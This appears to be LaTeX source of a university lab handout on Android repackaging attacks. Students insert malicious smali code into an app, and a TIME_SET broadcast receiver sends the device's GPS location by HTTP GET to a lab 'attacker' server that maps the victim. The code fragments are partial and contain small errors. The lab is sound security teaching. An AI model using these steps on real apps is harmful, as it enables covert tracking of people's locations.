\paragraph{Step 3: Repackaging and installing the victim app.}
We will follow the instructions in Tasks 1 to 5 to 
conduct the repackaging. We will even use the same host app. 
The only difference is that we are going to use a
new set of smali code, which can be downloaded from our website.  
There are three smali files: \texttt{MaliciousCode.smali}, 
\texttt{SendData\$1.smali}, and \texttt{SendData.smali}.
Place them in the \path{smali/com/mobiseed/repackaging} folder of 
the unpacked application.


We also have to modify the \texttt{AndroidManifest.xml}, because the 
malicious code requires different permissions than the one used in Tasks 1
to 5. We need three permissions related to location and one for Internet
access. 

\begin{lstlisting}
<manifest...>
  ...
  <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/> 
  <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/> 
  <uses-permission android:name="android.permission.ACCESS_MOCK_LOCATION" /> 
  <uses-permission android:name="android.permission.INTERNET"/>
  ....

  <application>
      .....
      .....
      <receiver android:name="com.mobiseed.repackaging.MaliciousCode" >
          <intent-filter>
              <action android:name="android.intent.action.TIME_SET" />
          </intent-filter>
      </receiver>
  </application>

</manifest>
\end{lstlisting}


\paragraph{Step 4: Enabling the permission on the Android VM.} 
Adding location permissions to the manifest file is not enough. When an app is
installed via a store app, such as the Play store, users will be asked
whether they will grant those location permissions to the app. If users
approve, the Play store will tell the system that the permissions are
granted. Since we install our app via the \texttt{adb} tool, which does not
prompt us for approvals; nor will it automatically 
enable these permissions for the app. Therefore, we have to do it manually.
Follow the steps below to allow location access.  It should be noted that 
on a real phone, users do not need to perform this step manually. 

\begin{lstlisting}[backgroundcolor=]
  Settings -> Apps -> Repackaging Lab -> Permissions -> toggle location on
\end{lstlisting}


\paragraph{Step 5: Triggering the attacking code.}
Now we are ready to see the attack work. Run the mock location application
and choose a location, then change the time on your Android VM. To change
time, click the following sequence:

\begin{lstlisting}[backgroundcolor=]
  Settings -> date and time -> set time 
\end{lstlisting}


\paragraph{Step 6: Tracking the victim.}
Once the malicious code is triggered, we can go back to our Ubuntu VM, 
load \url{http://www.repackagingattacklab.com} into our Firefox browser.   
If your attack is successful,  you should be able to track the victim of
the Android VM. You can go to the mock location app to change to a
different city, and see whether your malicious code can correctly 
track the victim's movement. Please describe your observations. 


\section{Submission and Demonstration}

You need to submit a detailed lab report to describe what you have done and what you have
observed, including screenshots and code snippets (if needed). You also need to provide
explanation to the observations that are interesting or surprising. You are encouraged to
pursue further investigation, beyond what is required by the lab description.

\end{document}


% *******************************************
% SECTION
% ******************************************* 
\section{Questions}

After finishing all the lab tasks, you need to answer the following questions 
in your lab report.


\begin{itemize} 
\item \textbf{Question 1:}  Why is the repackaging attack not much a risk in iOS
  devices? 
\item \textbf{Question 2:}  If you were Google, what decisions you would make to reduce 
  the attacking chances of repackaging attacks? 
%  (hint: open question: disable self-signing, etc.)
  
\item  \textbf{Question 3:}   Third-party markets are considered as the major source
  of repackaged applications. Do you think that using the official Google Play Store only can
  totally keep you away from the attacks?
  Why or why not? 
%  (not, name check may not figure out all repackaged application)

\item  \textbf{Question 4:} In real life, if you had to download applications from
  untrusted source, what would you do to ensure the security of your device? 
  
%  (open question: hash value check, permission check during installation, etc.
\end{itemize} 
  



\section{Appendix: }

This section will tell you how to modfiy the malicious code and generate your own smali files
to use in repackaging attacks. 

\begin{itemize}
\item Step 1 : Download and unzip RepackagingAttack.zip file from our website

\item Step 2: Locate the malicious code. Go to the folder
app/src/main/java/com/mobiseed/repackaging/ inside RepackagingAttack

\item Step 3: Here you should see MaliciousCode.java. This is our attack code, you can modify
it as required.

\item Step 4: Build the application and get the .apk file. To build your app go into the root
folder of the application and run: 

\begin{lstlisting}
$ ./gradlew
$ ./gradlew assembleDebug
\end{lstlisting}

You can find the application in app/build/outputs/apk/debug/

\item Step 5: Disassemble the .apk file using : 
\begin{lstlisting}
$ apktool d your-apk.apk
\end{lstlisting}
\item Step 6: Browse to the depackaged app folder and go to smali/com/mobiseed/repackaging. Here you should find smali files with the names MaliciousCode* and SendData*. Copy these files out. They are now your new malicious code files which you can use in the repackaging attack.
\end{itemize}



\paragraph{Structure of MaliciousCode.java}
Public class "MaliciousCode" runs another class "SendData" which is an AsyncTask. We need to
use AsyncTask in order to perform network operations. "MaliciousCode" is our broadcast
receiver.


SendData has a function Get() which we use to send Get requests to a particular
URL. "doinBackground()" is the function which runs the main code. Every time an AsyncTask is
called, the "doinBackground()" will be executed. Here we use "LocationManager" to get the last
known location of the device. We get the latitude and longitude details from the created
object and send this data along with the GET request.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Location}


We embed this code in the Broadcast receiver. Its job is to get the current location from the
GPS of the phone and send it to our server.

\begin{enumerate}
\item Getting location
\begin{lstlisting}
....
location = locMgr.getLastKnownLocation(LocationManager.GPS_PROVIDER)
Location location = locMgr.getLastKnownLocation(LocationManager.GPS_PROVIDER);
location.getLatitude;
location.getLongitude;
....
\end{lstlisting} 
\item Sending location
\begin{lstlisting}
Public void Get(String s){
URL urlConnection = new URL(s);
HttpURLConnection con = (HttpURLConnection) urlConnection.openConnection();
con.setRequestMethod("GET");
}
...
Get("http://www.repackagingattacklab.com/location.php?"+location);
...
\end{lstlisting} 
\end{enumerate}

On our attacker machine, we will be able to see a live map plotting with the location of the VM\\\\
\textbf{Attacker machine :}\\
As we see in the code above, the attack code talks to "http://www.repackagingattacklab.com". This is actually a virtual host running on the Attacker machine. We will modify the /etc/hosts file of the Android VM in the environment setup so that it can resolve this URL. \\
On the attacker machine, we have a apache server running, where "location.php" takes data input from the GET request we send in our attack code and writes it into a JSON file. Our javascript code then pulls data from this JSON file to plot the map using AJAX to update the map.\\
 You can view the source code in /var/www/repackaginglab folder of our attacker machine. \\\\


\paragraph{Mock Location}
\begin{enumerate}
\item Setting location
\begin{lstlisting}
....
MockLocationProvider mock = new MockLocationProvider(LocationManager.GPS_PROVIDER, this);
mock.pushLocation(Latitude[i], Longitude[i]);
....
\end{lstlisting} 
\item Checking location
\begin{lstlisting}
....
LocationManager locMgr = (LocationManager) getSystemService(LOCATION_SERVICE);
locMgr.getLastKnownLocation(LocationManager.GPS_PROVIDER));
....
\end{lstlisting} 
\end{enumerate}

